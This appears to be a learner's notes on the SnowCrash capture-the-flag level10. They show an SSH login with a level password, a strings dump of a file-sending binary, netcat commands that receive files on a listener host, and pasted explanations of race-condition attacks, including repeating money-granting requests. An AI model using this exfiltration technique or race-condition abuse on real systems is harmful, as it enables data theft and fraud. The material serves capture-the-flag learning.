 ssh level10@ip -p 4242
password: s5cAJpM8ev6XHw998pRWG728z


strings level10

```
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
```


echo "test" > /tmp/test
level10@SnowCrash:~$ ./level10 /tmp/test 10.12.10.14
Connecting to 10.12.10.14:6969 .. Connected!
Sending file .. wrote file!

on the host:
nc -l 6969
.*( )*.
test
level10@SnowCrash:~$ echo "`getflag`" > /tmp/test
level10@SnowCrash:~$ ./level10 /tmp/test 10.12.10.14

nc -l 6969
.*( )*.
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)

level10@SnowCrash:~$ ./level10 token 10.12.10.14
You don't have access to token



race condition = use one code several times

When you make the web page perform some action that should be done only once, but if the action is done several times you will be benefited, you really need to try a Race condicion.
Most of the time this is directly related with money (if an action is made you get X money, so let's try to make it several time very quickly).


Race condition is architectural vulnerability of a multi-threaded application, in which the application operation depends on the order in which the parts of the code are executed.


A race condition is when two or more requests are sent at the same millisecond to an API. When an API does not have a mechanism to handle this scenario, it can lead to the API processing the requests in an unintended manner.

This attack is named “Race Condition” because it is a race between how fast an attacker sends requests to modify a resource and how fast the application updates that particular resource.

https://labs.detectify.com/2021/08/10/how-to-hack-apis-in-2021/